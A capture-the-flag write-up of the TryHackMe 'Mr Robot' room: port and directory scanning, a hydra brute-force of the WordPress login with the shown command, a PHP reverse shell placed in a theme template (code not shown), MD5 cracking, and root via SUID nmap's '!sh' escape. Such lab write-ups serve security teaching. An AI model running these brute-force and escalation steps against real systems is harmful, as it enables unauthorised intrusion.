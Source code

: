```yaml
---
title: "Mr Robot CTF"
date: 2025-03-06
image: /assets/img/tryhackme/Mrrobot/mrrobot_image.jpg
description: Writeup of the TryHackMe-CTF Mr Robot CTF
categories: [Tryhackme, Medium]
tags: [linux, wordpress, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Mr Robot CTF</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Based on the Mr. Robot show, can you root this box?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Medium</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/mrrobot">https://tryhackme.com/room/mrrobot</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Mr Robot CTF.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.233.174      
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 13:16 EST
  Nmap scan report for 10.10.233.174
  Host is up (0.036s latency).
  Not shown: 65532 filtered tcp ports (no-response)
  PORT    STATE  SERVICE
  22/tcp  closed ssh
  80/tcp  open   http
  443/tcp open   https

  Nmap done: 1 IP address (1 host up) scanned in 109.20 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,443 10.10.233.174
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 13:18 EST
  Nmap scan report for 10.10.233.174
  Host is up (0.11s latency).

  PORT    STATE  SERVICE  VERSION
  22/tcp  closed ssh
  80/tcp  open   http     Apache httpd
  |_http-server-header: Apache
  |_http-title: Site doesn't have a title (text/html).
  443/tcp open   ssl/http Apache httpd
  |_http-server-header: Apache
  | ssl-cert: Subject: commonName=www.example.com
  | Not valid before: 2015-09-16T10:45:03
  |_Not valid after:  2025-09-13T10:45:03
  |_http-title: Site doesn't have a title (text/html).

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 18.09 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The website displayed an awesome Mr. Robot-themed boot progress and command interface:

![MR Robot theme](/assets/img/tryhackme/Mrrobot/thm_mrrobot_1.jpg)

After interacting with it for a bit, I didn't find anything interesting and moved on to directory enumeration:

```bash
$ gobuster dir --url http://10.10.233.174/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.233.174/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Extensions:              html,txt,php
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.html                (Status: 403) [Size: 214]
  /index.html           (Status: 200) [Size: 1188]
  /images               (Status: 301) [Size: 236] [--> http://10.10.233.174/images/]
  /index.php            (Status: 301) [Size: 0] [--> http://10.10.233.174/]
  /blog                 (Status: 301) [Size: 234] [--> http://10.10.233.174/blog/]
  /rss                  (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /sitemap              (Status: 200) [Size: 0]
  /login                (Status: 302) [Size: 0] [--> http://10.10.233.174/wp-login.php]
  /0                    (Status: 301) [Size: 0] [--> http://10.10.233.174/0/]
  /feed                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /video                (Status: 301) [Size: 235] [--> http://10.10.233.174/video/]
  /image                (Status: 301) [Size: 0] [--> http://10.10.233.174/image/]
  /atom                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/atom/]
  /wp-content           (Status: 301) [Size: 240] [--> http://10.10.233.174/wp-content/]
  /admin                (Status: 301) [Size: 235] [--> http://10.10.233.174/admin/]
  /audio                (Status: 301) [Size: 235] [--> http://10.10.233.174/audio/]
  /intro                (Status: 200) [Size: 516314]
  /wp-login             (Status: 200) [Size: 2613]
  /wp-login.php         (Status: 200) [Size: 2613]
  /css                  (Status: 301) [Size: 233] [--> http://10.10.233.174/css/]
  /rss2                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /license              (Status: 200) [Size: 309]
  /license.txt          (Status: 200) [Size: 309]
  /wp-includes          (Status: 301) [Size: 241] [--> http://10.10.233.174/wp-includes/]
  /readme               (Status: 200) [Size: 64]
  /readme.html          (Status: 200) [Size: 64]
  /js                   (Status: 301) [Size: 232] [--> http://10.10.233.174/js/]
  /wp-register.php      (Status: 301) [Size: 0] [--> http://10.10.233.174/wp-login.php?action=register]
  /wp-rss2.php          (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /rdf                  (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/rdf/]
  /page1                (Status: 301) [Size: 0] [--> http://10.10.233.174/]
  /robots               (Status: 200) [Size: 41]
  /robots.txt           (Status: 200) [Size: 41]
```

While `gobuster` was running, I manually searched for common files and found two entries in `robots.txt`, which I downloaded: 
```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The first flag inside `key-1-of-3.txt` and the `fsocity.dic` seemed to be a wordlist that might be useful later:
```bash
$ cat key-1-of-3.txt
	[removed]
$ wc -l fsocity.dic                                  
	858160 fsocity.dic
```

Since the `gobuster` scan was completed, I started checking the directories one by one. Nothing useful - except for a WordPress instance. I used `wpscan` to check for version numbers, plugins or vulnerabilities, but nothing useful came up. Keeping the wordlist in mind, I attempted a brute-force login. Finding a valid username was easy: I simply searched for `mr robot character name list`, tried a few, and got a hit:

![WordPress login](/assets/img/tryhackme/Mrrobot/thm_mrrobot_2.jpg)

Because the wordlist was quite large, I used `hydra`, since it allows a higher number of parallel connections compared to `wpscan`. However, the estimated time was over five hours, so I canceled the process after five minutes. Assuming the password was somewhere in the wordlist, I reversed it using `tac` and tried again:  
```bash
$ cat fsocity.dic | tac > reverse_fsocity.dic
$ hydra -l 'elliot' -P reverse_fsocity.dic 10.10.211.229 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered"
	[80][http-post-form] host: 10.10.211.229   login: elliot   password: [removed]
```

Great! I was able to log in. From here, I injected a PHP reverse shell into the `404` template.

![404 Template](/assets/img/tryhackme/Mrrobot/thm_mrrobot_3.jpg)

After setting up a listener, I triggered the shell by visiting a non-existent page:
```bash
$ whoami
	daemon
$ cat key-2-of-3.txt 
	cat: key-2-of-3.txt: Permission denied
```

## Privilege Escalation robot

Since I had initial access I performed some stabilization and started to explore the machine. I found a file with an interesting extension:
```bash
daemon@linux:/home/robot$ cat password.raw-md5 
	robot:[removed]
```

A quick lookup on Crackstation revealed the plaintext password for `robot`. Using it, I retrieved the second flag:

![Crackstation](/assets/img/tryhackme/Mrrobot/thm_mrrobot_4.jpg)

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ cat key-2-of-3.txt 
	[removed]
```

## Privilege Escalation root

I started by checking `sudo -l`, but I had no permission. Next, I checked the sudo version, tried an exploit, but had no success. Checking for binaries with the SUID set, I found something interesting:
```bash
robot@linux:/var/tmp$ find / -perm /4000 -type f 2>/dev/null
[...]
	/usr/local/bin/nmap
[...]
```

A quick search on <a href="https://gtfobins.github.io/gtfobins/nmap/">GTFOBins</a> provided me everthing I needed:
```bash
robot@linux:/var/tmp$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# cd /root
# ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
	[removed]
```

solved! :)

